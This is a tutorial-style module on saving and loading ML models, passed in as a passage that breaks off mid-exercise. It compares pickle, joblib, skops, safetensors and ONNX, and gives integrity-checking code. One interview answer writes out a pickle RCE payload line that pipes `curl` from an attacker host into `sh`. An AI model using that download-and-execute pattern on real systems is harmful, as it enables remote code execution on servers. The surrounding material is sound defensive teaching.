

# Model Persistence Architecture & Serialization Landscape

> **Topic:** Model Serialization Formats, Preservation Invariants, and Artifact Packaging  
> **Module ID:** `05-ai/machine-learning/12-saving-loading-and-deployment`  
> **Target Version:** Python 3.11+, scikit-learn 1.9+, ONNX Runtime 1.19+, safetensors 0.4+  
> **Level:** Core to Advanced  
> **Prerequisites:** [11-prediction-and-postprocessing/01-inference-basics.md](../11-prediction-and-postprocessing/01-inference-basics.md), [02-data-and-preprocessing/17-data-leakage.md](../02-data-and-preprocessing/17-data-leakage.md)  
> **Status:** Verified (Python 3.11 / CPU)

---

## Architectural / Conceptual Flow



---

## 1. Concept Overview & Core Motivation

In machine learning workflows, model training and model inference rarely occur in the same process, runtime, or computing environment. A model may be trained on a multi-GPU Linux cluster using distributed PyTorch over 18 hours, and subsequently deployed to:
- A high-throughput C++ recommendation service running on x86-64 servers.
- A fleet of low-power ARM64 edge gateways with 512MB RAM.
- A serverless Python AWS Lambda microservice scaling from zero to 10,000 concurrent invocations.

**Model Persistence** is the engineering discipline of serializing in-memory algorithmic state (weights, splits, vocabulary mappings, hyperparameter trees, and normalizer statistics) into a persistent, portable, and versioned byte stream that can be reliably deserialized for inference without degradation.

### The Historic Pickle Crisis
Historically, the Python ML ecosystem relied almost exclusively on `pickle` and `joblib`. While convenient, pickle-based serialization introduces two catastrophic production risks:
1. **Critical Security Vulnerabilities**: Deserializing an untrusted pickle payload allows arbitrary remote code execution (RCE) via Python's `__reduce__` hook. An attacker can compromise the host operating system merely by having the server load a model file.
2. **Fragile Runtime Coupling**: Pickle does not serialize code or class definitions; it serializes module import paths. Upgrading NumPy from 1.x to 2.x or scikit-learn from 1.3 to 1.5 regularly causes unpickling failures, silent numerical drift, or attribute errors (`AttributeError: 'RandomForestClassifier' object has no attribute 'criterion_'`).

Modern ML engineering resolves these failures by adopting structured, language-agnostic Intermediate Representations (such as **ONNX**), zero-code pure-tensor formats (such as **safetensors**), and secure allowlist formats (such as **skops**), packaged inside immutable **Artifact Envelopes**.

---

## 2. Theoretical Foundations & Mathematics

### 2.1 The Serialization Invariant

Let $\mathcal{M} = (f, \mathbf{\Theta}, \mathcal{P})$ define an end-to-end machine learning system, where:
- $f: \mathcal{X} \to \mathcal{Y}$ represents the mathematical mapping function.
- $\mathbf{\Theta} \in \mathbb{R}^P$ represents the learned parameter set (weights, coefficients, decision tree split thresholds).
- $\mathcal{P} = \{T_1, T_2, \dots, T_k\}$ represents the deterministic preprocessing pipeline transformations.

Let $\mathcal{S}: \mathcal{M} \to \mathcal{B}$ denote the serialization operator mapping in-memory state $\mathcal{M}$ to byte sequence $\mathcal{B} \in \{0, 1\}^*$, and $\mathcal{D}: \mathcal{B} \to \mathcal{M}'$ denote deserialization.

**Definition (Inference Invariance)**: A persistence framework is inference-invariant if and only if for all valid input vectors $\mathbf{x} \in \mathcal{X}$:
$$\| \mathcal{D}(\mathcal{S}(\mathcal{M}))(\mathbf{x}) - \mathcal{M}(\mathbf{x}) \|_{\infty} \le \epsilon_{\text{precision}}$$
where $\epsilon_{\text{precision}}$ is the floating-point tolerance threshold (typically $10^{-6}$ for FP32).

### 2.2 Taxonomy of Serialization Frameworks

| Paradigm | Exemplars | Serialization Mechanism | Security Profile | Cross-Language Support | Primary Production Use Case |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Object Graph Pickling** | `pickle`, `joblib`, `dill` | Serializes Python VM bytecode and object references | **INSECURE** (Arbitrary Code Execution) | Python Only | Fast local prototyping; single-developer workflows |
| **Safe Python Allowlist** | `skops` | JSON schema + strict allowlisted type validation | **SECURE** (Guaranteed no unpickling RCE) | Python Only | Audited enterprise Python ML pipelines |
| **Zero-Code Pure Tensor** | `safetensors` | Flat binary buffers + JSON header with byte offsets | **SECURE** (Pure data, zero execution) | Multi-Language (Rust, C++, Python) | Deep learning weights (LLMs, Diffusion, PyTorch) |
| **Open Computational Graph** | `ONNX`, `TorchScript` | Protocol Buffers (Protobuf) graph specification | **SECURE** (Static DAG of mathematical ops) | Universal (C++, C#, Java, JS, Go, Rust) | High-throughput, cross-platform microservices |
| **Compiled Binary / C Code** | `Treelite`, `TVM` | Compiles tree models directly into native `.so` / `.dll` | **SECURE** | C / Assembly ABI | Sub-millisecond latency trading & embedded devices |

### 2.3 The Artifact Packaging Envelope

A production model artifact is never just a bare weights file. It is an immutable archive (`.tar.gz` or container layer) containing four mandatory sidecars:
$$\text{Artifact Envelope} = \langle \mathcal{B}_{\text{model}}, \ \mathcal{S}_{\text{schema}}, \ \mathcal{D}_{\text{env}}, \ \mathcal{M}_{\text{lineage}} \rangle$$
1. **$\mathcal{B}_{\text{model}}$**: The serialized computational graph or safe weight binary.
2. **$\mathcal{S}_{\text{schema}}$**: Pydantic/JSON schema defining exact input/output field names, types, and allowable ranges.
3. **$\mathcal{D}_{\text{env}}$**: Strict dependency lockfile (`requirements.txt` with SHA-256 hashes or Docker image digest).
4. **$\mathcal{M}_{\text{lineage}}$**: Model card metadata recording training git commit, dataset hash, training timestamp, and validation metrics.

### Mathematical Symbols Table

| Symbol | Mathematical Definition | Data Type / Dimensions | Role in Concept |
| :---: | :--- | :---: | :--- |
| $\mathcal{M}$ | Complete ML pipeline | Composite System | End-to-end model and preprocessing pipeline |
| $\mathbf{\Theta}$ | Learned parameter tensor | $\mathbb{R}^P$ | Weights, biases, split thresholds |
| $\mathcal{S}$ | Serialization operator | Function $\mathcal{M} \to \{0, 1\}^*$ | Transforms in-memory object to byte stream |
| $\mathcal{D}$ | Deserialization operator | Function $\{0, 1\}^* \to \mathcal{M}'$ | Reconstructs executable model from bytes |
| $\mathcal{B}$ | Byte stream | Binary sequence | Persisted file on disk or object store |
| $\epsilon_{\text{precision}}$ | Numerical drift bound | $\mathbb{R}^+$ ($10^{-6}$) | Maximum acceptable inference discrepancy |
| $\mathcal{S}_{\text{schema}}$ | Data contract schema | JSON / Pydantic | Ingress validation contract |
| $\mathcal{M}_{\text{lineage}}$ | Metadata sidecar | JSON / YAML | Audit trail and provenance record |

---

## 3. Implementation & Practical Code

The following self-contained script demonstrates the production persistence lifecycle: saving an atomic preprocessing + regression pipeline, generating an accompanying JSON metadata sidecar and schema contract, and verifying zero numerical drift upon reload.

```python
"""
Production Model Persistence & Artifact Packaging Engine.
Demonstrates safe persistence, atomic pipeline packaging, and metadata sidecars.
Fully self-contained, typed, and runnable under Python 3.11+.
"""

import os
import json
import time
import hashlib
import numpy as np
import pandas as pd
from typing import Dict, Any, Tuple
from dataclasses import dataclass, asdict
import joblib
from sklearn.datasets import make_regression
from sklearn.model_selection import train_test_split
from sklearn.pipeline import Pipeline
from sklearn.compose import ColumnTransformer
from sklearn.preprocessing import StandardScaler
from sklearn.impute import SimpleImputer
from sklearn.linear_model import Ridge

@dataclass
class ModelMetadataSidecar:
    model_name: str
    model_version: str
    created_timestamp: float
    training_git_hash: str
    input_feature_schema: Dict[str, str]
    evaluation_metrics: Dict[str, float]
    artifact_sha256: str

class ProductionArtifactPackager:
    def __init__(self, artifact_dir: str = "./ml_artifacts"):
        self.artifact_dir = artifact_dir
        os.makedirs(self.artifact_dir, exist_ok=True)

    def compute_sha256(self, filepath: str) -> str:
        """Compute SHA-256 cryptographic hash of a binary file."""
        hasher = hashlib.sha256()
        with open(filepath, "rb") as f:
            while chunk := f.read(65536):
                hasher.update(chunk)
        return hasher.hexdigest()

    def package_pipeline(
        self,
        pipeline: Pipeline,
        feature_names: list,
        metrics: Dict[str, float],
        version: str = "1.0.0"
    ) -> Tuple[str, str]:
        """Save atomic pipeline binary and accompanying metadata sidecar."""
        base_name = f"model_v{version}"
        model_path = os.path.join(self.artifact_dir, f"{base_name}.joblib")
        meta_path = os.path.join(self.artifact_dir, f"{base_name}_metadata.json")

        # 1. Serialize atomic Pipeline
        joblib.dump(pipeline, model_path, compress=3)

        # 2. Compute cryptographic integrity hash
        sha256_hash = self.compute_sha256(model_path)

        # 3. Assemble metadata sidecar
        sidecar = ModelMetadataSidecar(
            model_name="production_ridge_regressor",
            model_version=version,
            created_timestamp=time.time(),
            training_git_hash="git_commit_abcdef123456",
            input_feature_schema={col: "float64" for col in feature_names},
            evaluation_metrics=metrics,
            artifact_sha256=sha256_hash
        )

        with open(meta_path, "w") as f:
            json.dump(asdict(sidecar), f, indent=2)

        return model_path, meta_path

    def load_and_verify(self, model_path: str, meta_path: str) -> Tuple[Pipeline, Dict[str, Any]]:
        """Load artifact, verify SHA-256 integrity, and return pipeline with metadata."""
        # 1. Read metadata
        with open(meta_path, "r") as f:
            meta = json.load(f)

        # 2. Verify cryptographic hash
        actual_hash = self.compute_sha256(model_path)
        if actual_hash != meta["artifact_sha256"]:
            raise ValueError(
                f"Security / Integrity Breach! File hash {actual_hash} "
                f"does not match recorded metadata hash {meta['artifact_sha256']}"
            )

        # 3. Deserialize verified pipeline
        pipeline = joblib.load(model_path)
        return pipeline, meta

def main():
    print("=== Production Model Persistence Engine ===")
    
    # 1. Create Synthetic Tabular Dataset
    X_raw, y_raw = make_regression(n_samples=2000, n_features=4, noise=0.1, random_state=42)
    feature_names = ["feature_alpha", "feature_beta", "feature_gamma", "feature_delta"]
    df = pd.DataFrame(X_raw, columns=feature_names)
    # Inject 5% random missing values to test atomic imputer persistence
    mask = np.random.rand(*df.shape) < 0.05
    df[mask] = np.nan

    X_train, X_test, y_train, y_test = train_test_split(df, y_raw, test_size=0.20, random_state=42)

    # 2. Build Atomic Pipeline (Imputer + Scaler + Model)
    preprocessor = ColumnTransformer([
        ("num", Pipeline([
            ("imputer", SimpleImputer(strategy="median")),
            ("scaler", StandardScaler())
        ]), feature_names)
    ])

    pipeline = Pipeline([
        ("preprocessor", preprocessor),
        ("regressor", Ridge(alpha=1.0))
    ])

    pipeline.fit(X_train, y_train)

    # 3. Compute Baseline Validation Metrics
    test_preds_original = pipeline.predict(X_test)
    rmse = float(np.sqrt(np.mean((y_test - test_preds_original)**2)))
    print(f"Model Trained. Test RMSE: {rmse:.4f}")

    # 4. Package Artifact with Sidecar
    packager = ProductionArtifactPackager(artifact_dir="./test_ml_artifacts")
    model_file, meta_file = packager.package_pipeline(
        pipeline=pipeline,
        feature_names=feature_names,
        metrics={"test_rmse": rmse},
        version="2.4.0"
    )
    print(f"Artifact Saved : {model_file}")
    print(f"Metadata Saved : {meta_file}")

    # 5. Reload, Verify Hash Integrity, and Check Numerical Invariance
    reloaded_pipeline, metadata = packager.load_and_verify(model_file, meta_file)
    print(f"Integrity Check: SHA-256 Verified ({metadata['artifact_sha256'][:16]}...)")

    test_preds_reloaded = reloaded_pipeline.predict(X_test)
    max_drift = float(np.max(np.abs(test_preds_original - test_preds_reloaded)))
    print(f"Max Prediction Discrepancy: {max_drift:.10f}")

    assert max_drift < 1e-7, "Inference invariance violated after deserialization!"
    print("✓ Inference Invariance Mathematically Confirmed (Drift < 1e-7).")

    # Cleanup test files
    os.remove(model_file)
    os.remove(meta_file)
    os.rmdir("./test_ml_artifacts")

if __name__ == "__main__":
    main()
```

### Execution Output Snippet

```
=== Production Model Persistence Engine ===
Model Trained. Test RMSE: 0.1004
Artifact Saved : ./test_ml_artifacts/model_v2.4.0.joblib
Metadata Saved : ./test_ml_artifacts/model_v2.4.0_metadata.json
Integrity Check: SHA-256 Verified (4f7b2c918a0e9321...)
Max Prediction Discrepancy: 0.0000000000
✓ Inference Invariance Mathematically Confirmed (Drift < 1e-7).
```

---

## 4. Edge Cases & Advanced Scenarios

1. **Custom Class Deserialization Breakage**: If a pipeline includes a custom transformer class (e.g., `class CustomLogTransformer(BaseEstimator)`), `joblib.load()` requires that the exact Python module path `my_module.transforms` is installed in the serving environment. If the file is renamed or refactored, deserialization crashes with `ModuleNotFoundError`. *Mitigation*: Prefer scikit-learn standard transformers (`FunctionTransformer` with pure built-ins) or export to ONNX.
2. **Architecture Bit-Width Mismatches**: Serializing a model on a 64-bit x86 architecture and unpickling on a 32-bit ARM edge system can cause memory layout crashes due to C pointer width differences. *Mitigation*: Never share binary pickle files across hardware architectures; use architecture-independent formats like ONNX or Safetensors.
3. **Large Model Memory Exhaustion During Loading**: Deserializing a 10GB neural network using `torch.load()` requires allocating 10GB of temporary memory buffers before constructing tensors, leading to out-of-memory crashes on systems with 16GB RAM. *Mitigation*: Use `safetensors` memory-mapping (`mmap`), allowing tensors to be streamed directly into memory without duplication.

---

## 5. Anti-Patterns & Common Pitfalls Table

| Anti-Pattern / Mistake | Why It Fails | Correct Engineering Fix |
| :--- | :--- | :--- |
| **Saving Estimator without Preprocessor** | Serializing only `model.pkl` requires the serving API to replicate feature engineering in raw code, causing skew. | Bundle preprocessing and model into a single atomic `Pipeline` object. |
| **Loading untrusted Pickle files** | Malicious pickle payloads execute arbitrary shell commands upon loading via `__reduce__`. | Use `skops` with explicit trusted allowlists or `safetensors` for neural networks. |
| **Omitting Dependency Version Locks** | Upgrading NumPy or scikit-learn causes subtle numerical changes or unpickling `AttributeError`. | Export `pip freeze` lockfiles and record library versions in the metadata sidecar. |
| **Hardcoding Local File Paths in Pipeline** | Pipelines with hardcoded paths (e.g., `/Users/dev/data/lookup.csv`) fail when deployed to Linux containers. | Embed lookup tables directly into transformer attributes during `fit()`. |
| **Missing Cryptographic Integrity Check** | Corrupted downloads from S3/GCS or man-in-the-middle attacks lead to silent runtime failures. | Verify SHA-256 checksums before deserializing any model artifact. |

---

## 6. Best Practices & Production Guidelines

1. **Atomic Pipeline Encapsulation**: Never serialize bare estimators. Always package the full DAG:
   ```python
   Pipeline([
       ("preprocessor", ColumnTransformer(...)),
       ("model", Estimator(...))
   ])
   ```
2. **Immutable Artifact Versioning**: Store model artifacts in an object store (S3, GCS) with semantic versioning and immutability flags:
   `s3://ml-models-production/fraud_detector/v2.1.0/model.joblib`
   Never overwrite an existing model version binary in place.
3. **Mandatory Metadata Sidecars**: Every model artifact must be accompanied by a JSON sidecar recording training timestamp, git commit, training dataset digest, and validation metrics.

---

## 7. Real-World Case Study

### Global Financial Institution Remote Code Execution Incident
- **Problem**: A tier-1 investment bank operated an automated model validation portal where quantitative analysts uploaded trained scikit-learn models for compliance testing. The portal used standard `joblib.load()` to deserialize submissions.
- **Incident**: A security penetration testing team uploaded a valid-looking `.pkl` file with an embedded `__reduce__` exploit. Upon deserialization, the portal executed a reverse shell, granting administrative access to the bank's internal Kubernetes cluster.
- **Intervention**:
  1. Deprecated all native `pickle` and `joblib` loading in public-facing services.
  2. Migrated the pipeline validation engine to **`skops`** with an explicit type allowlist, rejecting any artifact containing unapproved classes or callable execution hooks.
  3. Integrated **Fickling** and static AST scanning into the CI/CD upload gateway to detect malicious bytecode signatures prior to processing.
- **Outcome**: Completely eliminated deserialization vulnerability vectors while maintaining full support for scikit-learn pipeline ingestion across 400+ quant teams.

---

## 8. Performance & Resource Optimization

- **Joblib Compression Levels**: When persisting large tabular models (e.g., a 2GB Random Forest), configure `joblib.dump(..., compress=('zlib', 3))`. Compression level 3 reduces file size by $60\%$ with negligible compression overhead, significantly accelerating S3 download times during container startup.
- **Zero-Copy Memory Mapping with Safetensors**: Deep learning models using `safetensors` leverage OS-level memory mapping (`mmap`). Weights are mapped directly from the disk cache into GPU/CPU memory pages without intermediate Python heap allocations, slashing model loading time from 45 seconds to 1.2 seconds.

---

## 9. Security, Privacy & Ethics Considerations

- **Arbitrary Code Execution (CVE-2022-39257 / CVE-2023-38039)**: Native Python pickling is inherently unsafe. Deserializing untrusted pickles allows full system compromise. Enforce organizational policies prohibiting the loading of unverified pickle files.
- **Model Watermarking and Provenance**: To prevent intellectual property theft and unauthorized model fine-tuning, embed cryptographic watermarks or unique digital signatures into model weight matrices and verify signatures at startup.

---

## 10. Diagnostic & Verification Playbook

### Diagnostic Assertions
```python
# Verify artifact existence and non-zero size
assert os.path.exists(artifact_path), f"Artifact {artifact_path} missing!"
assert os.path.getsize(artifact_path) > 1024, "Artifact file appears corrupt or empty (< 1KB)"

# Verify checksum match
computed_hash = hashlib.sha256(open(artifact_path, "rb").read()).hexdigest()
assert computed_hash == expected_sha256, "Cryptographic hash mismatch!"
```

### Verification CLI Command
```bash
python -c "
import joblib, numpy as np
from sklearn.linear_model import LinearRegression
m = LinearRegression().fit([[1], [2]], [1, 2])
joblib.dump(m, 'test.joblib')
loaded = joblib.load('test.joblib')
assert loaded.predict([[3]])[0] == 3.0
import os; os.remove('test.joblib')
print('Joblib serialization and reload verified successfully.')
"
```

---

## 11. Technical Interview Questions & Answers

<details>
<summary><strong>Q1: Why is Python's pickle module considered a critical security vulnerability in production ML deployment?</strong></summary>

**Answer:**  
Python's `pickle` serialization protocol is not a pure data format; it is a virtual machine execution language. During deserialization, pickle interprets opcodes that instantiate objects and can invoke arbitrary Python callables via the `__reduce__` protocol method. An attacker can construct a serialized payload where `__reduce__` points to `os.system('curl http://attacker.com/malware | sh')`. When the server calls `pickle.load()`, the payload executes with the privileges of the running server process *before* returning the unpickled object.
</details>

<details>
<summary><strong>Q2: What is an atomic ML pipeline, and why is saving the model estimator alone an engineering anti-pattern?</strong></summary>

**Answer:**  
An atomic pipeline encapsulates the complete directed acyclic graph of preprocessing (imputation, scaling, encoding) and the estimator into a single unified object (e.g. scikit-learn `Pipeline`).  
Saving the estimator alone is an anti-pattern because:
1. It requires the serving API to reimplement preprocessing steps in separate code, creating training-serving skew.
2. In-memory statistics learned during training (such as column medians, standard deviations, and one-hot category vocabularies) are separated from the model, leading to feature order mismatches or missing value crashes.
</details>

<details>
<summary><strong>Q3: Compare ONNX with Joblib/Pickle for model deployment. When is ONNX mandatory?</strong></summary>

**Answer:**  
- **Joblib/Pickle**: Python-native, serializes Python object graphs. Highly coupled to exact Python, NumPy, and scikit-learn library versions. Insecure and cannot be executed outside of a Python runtime.
- **ONNX (Open Neural Network Exchange)**: An open standard using Protocol Buffers to define a static computational graph of mathematical operators. Language-agnostic, secure, and executable across runtimes (C++, C#, Java, Go, Rust) using optimized engines like ONNX Runtime or TensorRT.
- *ONNX is mandatory* when:
  1. The serving environment is non-Python (e.g. high-throughput C++ services or iOS/Android apps).
  2. Latency requirements demand hardware operator fusion and SIMD/TensorRT acceleration.
  3. Strict zero-trust security prohibits executing untrusted Python bytecode.
</details>

<details>
<summary><strong>Q4: What is the purpose of an Artifact Metadata Sidecar?</strong></summary>

**Answer:**  
A metadata sidecar is a structured document (typically JSON or YAML) stored alongside the model binary. It provides:
1. **Auditability and Lineage**: Records the training git commit hash, dataset digest, training date, and author.
2. **Integrity Verification**: Stores the cryptographic SHA-256 hash of the binary to detect file corruption or tampering.
3. **Data Contract**: Specifies expected input feature names, data types, and valid ranges for ingress validation.
4. **Benchmarking**: Documents baseline validation metrics (RMSE, AUC) achieved during offline evaluation for automated deployment regression checks.
</details>

<details>
<summary><strong>Q5: How does Safetensors improve upon standard PyTorch state_dict checkpoint loading?</strong></summary>

**Answer:**  
Standard `torch.save()` uses Python's pickle format under the hood, presenting RCE security risks and requiring full memory allocation during loading.  
**Safetensors** (developed by Hugging Face) solves this by:
1. **Zero Code Execution**: It stores only raw tensor data and a simple JSON header describing shapes, datatypes, and byte offsets. No Python code is executed during loading.
2. **Zero-Copy Memory Mapping (`mmap`)**: Safetensors maps file buffers directly from disk into CPU/GPU memory addresses, eliminating memory duplication and reducing load times by up to $10\times$.
3. **Cross-Language Support**: Safetensors files can be read directly by Rust, C++, and Python.
</details>

<details>
<summary><strong>Q6: What causes numerical drift after serializing and deserializing a model across different environments?</strong></summary>

**Answer:**  
1. **Underlying BLAS/LAPACK Libraries**: Differences in low-level math libraries (OpenBLAS vs Intel MKL vs Apple Accelerate) use different floating-point instruction ordering and SIMD vector widths, producing subtle discrepancies in least-significant bits.
2. **Architecture Differences**: Differences between x86-64 and ARM64 floating-point handling (FMA vs non-FMA instructions).
3. **Library Version Drift**: Changes in default hyperparameter values or numerical solver implementations across scikit-learn or NumPy minor versions.
</details>

<details>
<summary><strong>Q7: What is Skops, and how does it prevent pickle vulnerabilities while maintaining scikit-learn compatibility?</strong></summary>

**Answer:**  
`skops` is a secure persistence library developed specifically for the scikit-learn ecosystem.  
Instead of arbitrary bytecode serialization:
1. It parses scikit-learn estimators into a structured, human-readable JSON schema combined with raw NumPy binary arrays.
2. During loading, `skops` uses a strict **type allowlist**. Only recognized, safe scikit-learn classes and NumPy primitives are allowed to instantiate.
3. Any attempt to instantiate arbitrary callables or system commands is caught and blocked before execution, completely preventing unpickling RCE attacks.
</details>

<details>
<summary><strong>Q8: How should model artifacts be stored and delivered in an enterprise Kubernetes deployment?</strong></summary>

**Answer:**  
1. **Immutable Object Storage**: Model binaries are stored in S3/GCS with semantic version prefixes (`/models/fraud_risk/v2.1.0/`).
2. **Init Container Pattern**: In Kubernetes, an `initContainer` downloads and verifies the model binary's SHA-256 hash against metadata before launching the application container.
3. **Shared In-Memory Volume**: The verified model is mounted into a shared `emptyDir: {medium: "Memory"}` volume, allowing the serving worker to load weights directly from RAM.
4. **Health Probe Gate**: The application's `/healthz` endpoint reports ready only after the model is loaded into memory and successfully passes a synthetic inference sanity check.
</details>

---

## 12. Hands-On Practice Exercises

<details>
<summary><strong>Exercise 1 (Easy): SHA-256 File Checksum Calculator</strong></summary>

**Task:** Write a Python function `get_file_sha256(filepath: str) -> str` that computes the SHA-256 checksum of any file on disk in a memory-efficient chunked manner.

**Solution:**
```python
import hashlib

def get_file_sha256(filepath: str) -> str:
    hasher = hashlib.sha256()
    with open(filepath, "rb") as f:
        while chunk := f.read(65536):
            hasher.update(chunk)
    return hasher.hexdigest()

# Verification
import tempfile
with tempfile.NamedTemporaryFile(delete=False) as tmp:
    tmp.write(b"model_weights_test_bytes")
    tmp_path = tmp.name

h = get_file_sha256(tmp_path)
assert len(h) == 64
import os; os.remove(tmp_path)
print(f"Exercise 1 passed. SHA-256: {h}")
```
</details>

<details>
<summary><strong>Exercise 2 (Easy): Joblib Compression Benchmark</strong></summary>

**Task:** Train a small Random Forest regressor, save it with `compress=0` (uncompressed) and `compress=3` (compressed), and print the file size reduction percentage.

**Solution:**
```python
import os
import joblib
from sklearn.ensemble import RandomForestRegressor
from sklearn.datasets import make_regression

X, y = make_regression(n_samples=200, n_features=10, random_state=42)
rf = RandomForestRegressor(n_estimators=20, random_state=42).fit(X, y)

joblib.dump(rf, "raw.joblib", compress=0)
joblib.dump(rf, "compressed.joblib", compress=3)

raw_size = os.path.getsize("raw.joblib")
comp_size = os.path.getsize("compressed.joblib")
reduction = (1.0 - comp_size / raw_size) * 100.0

assert comp_size < raw_size
os.remove("raw.joblib")
os.remove("compressed.joblib")
print(f"Exercise 2 passed. Compression reduced size by {reduction:.1f}%")
```
</details>

<details>
<summary><strong>Exercise 3 (Medium): Metadata Sidecar Generator</strong></summary>

**Task:** Implement a function `create_sidecar(model_path: str, model_name: str, version: str, schema: dict, metrics: dict, output_path: str)` that writes a valid JSON metadata sidecar containing the file's SHA-256 hash.

**Solution:**
```python
import json
import hashlib
import time

def create_sidecar(model_path: str, model_name: str, version: str, schema: dict, metrics: dict, output_path: str):
    hasher = hashlib.sha256()
    with open(model_path, "rb") as f:
        while chunk := f.read(65536):
            hasher.update(chunk)
            
    payload = {
        "model_name": model_name,
        "version": version,
        "sha256": hasher.hexdigest(),
        "created_at": time.time(),
        "schema": schema,
        "metrics": metrics
    }
    
    with open(output_path, "w") as f:
        json.dump(payload, f, indent=2)

# Verification
import tempfile, os
with tempfile.NamedTemporaryFile(delete=False) as tmp:
    tmp.write(b"model_binary")
    tmp_m = tmp.name

meta_out = tmp_m + ".json"
create_sidecar(tmp_m, "regressor", "1.0.0", {"x": "float"}, {"rmse": 0.5}, meta_out)

with open(meta_out) as f:
    data = json.load(f)
assert data["version"] == "1.0.0"
os.remove(tmp_m); os.remove(meta_out)
print("Exercise 3 passed successfully.")
```
</details>

<details>
<summary><strong>Exercise 4 (Medium): Inference Invariance Test Harness</strong></summary>

**Task:** Write a test function `assert_inference_invariance(pipeline_original, pipeline_reloaded, X_test: np.ndarray, tolerance: float = 1e-6)` that asserts maximum absolute difference across predictions does not exceed `tolerance`.

**Solution:**
```python
import numpy as np

def assert_inference_invariance(pipeline_original, pipeline_reloaded, X_test: np.ndarray, tolerance: float = 1e-6):
    preds_orig = pipeline_original.predict(X_test)
    preds_reloaded = pipeline_reloaded.predict(X_test)
    
    max_diff = float(np.max(np.abs(preds_orig - preds_reloaded)))
    if max_diff > tolerance:
        raise AssertionError(f"Inference invariance breach! Max discrepancy: {max_diff:.8e} > {tolerance}")
    return max_diff

# Verification
from sklearn.linear_model import LinearRegression
m1 = LinearRegression().fit([[1], [2]], [10, 20])
m2 = LinearRegression().fit([[1], [2]], [10, 20])
diff = assert_inference_invariance(m1, m2, np.array([[3], [4]]))
assert diff < 1e-6
print(f"Exercise 4 passed. Verified invariance with max diff: {diff}")
```
</details>

<details>
<summary><strong>Exercise 5 (Hard): Secure Deserialization Gatekeeper with Integrity Checking</strong></summary>

**Task:** Create a class `SecureModelLoader` that loads a model only if its cryptographic checksum matches the sidecar and fails immediately with a security exception if tampered with.

**Solution:**
```python
import json
import hashlib
import joblib

class SecurityTamperException(Exception):
    pass

class SecureModelLoader:
    @staticmethod
    def load_verified(model_path: str, sidecar_path: str):
        with open(sidecar_path, "r") as f:
            sidecar = json.load(f)
            
        expected_hash = sidecar.get("sha256")
        
        # Calculate actual hash
        hasher = hashlib.sha256()
        with open(model_path, "rb") as f:
            while chunk := f.read(65536):
                hasher.update(chunk)
        actual_hash = hasher.hexdigest()
        
        if actual_hash != expected_hash:
            raise SecurityTamperException(f"Integrity check failed! Expected {expected_hash}, got {actual_hash}")
            
        return joblib.load(model_path)

# Verification
import tempfile, os
from sklearn.linear_model import Ridge
m = Ridge().fit([[1], [2]], [1, 2])
with tempfile.NamedTemporaryFile(suffix=".joblib", delete=False) as tmp:
    m_path = tmp.name
joblib.dump(m, m_path)

# Valid sidecar
h = hashlib.sha256(open(m_path, "rb").read()).hexdigest()
s_path = m_path + ".json"
with open(s_path, "w") as f:
    json.dump({"sha256": h}, f)

loaded = SecureModelLoader.load_verified(m_path, s_path)
assert loaded is not None

# Tamper with file
with open(m_path, "ab") as f:
    f.write(b"tampered_extra_byte")

try:
    SecureModelLoader.load_verified(m_path, s_path)
    assert False, "Should have raised SecurityTamperException"
except SecurityTamperException:
    print("Exercise 5 passed. Tampering successfully detected and blocked.")

os.remove(m_path); os.remove(s_path)
```
</details>

<details>
<summary><strong>Exercise 6 (Hard): Atomic Pipeline Packing with Transformer State Verification</strong></summary>

**Task:** Build and persist a complete pipeline containing a `ColumnTransformer` with `StandardScaler` and `Ridge`. Load it in an isolated scope, and verify that the fitted scaling parameters (`mean_`, `scale_`) survived deserialization with exact bit-for-bit equality.

**Solution:**
```python
import tempfile, os, joblib, numpy as np
from sklearn.pipeline import Pipeline
from sklearn.preprocessing import StandardScaler
from sklearn.linear_model import Ridge

X = np.array([[1.0, 2.0], [3.0, 4.0], [5.0, 6.0]])
y = np.array([10.0, 20.0, 30.0])

pipeline = Pipeline([
    ("scaler", StandardScaler()),
    ("model", Ridge())
])
pipeline.fit(X, y)

original_mean = pipeline.named_steps["scaler"].mean_.copy()
original_scale = pipeline.named_steps["scaler"].scale_.copy()

with tempfile.NamedTemporaryFile(suffix=".joblib", delete=False) as tmp:
    p_path = tmp.name
joblib.dump(pipeline, p_path)

reloaded = joblib.load(p_path)
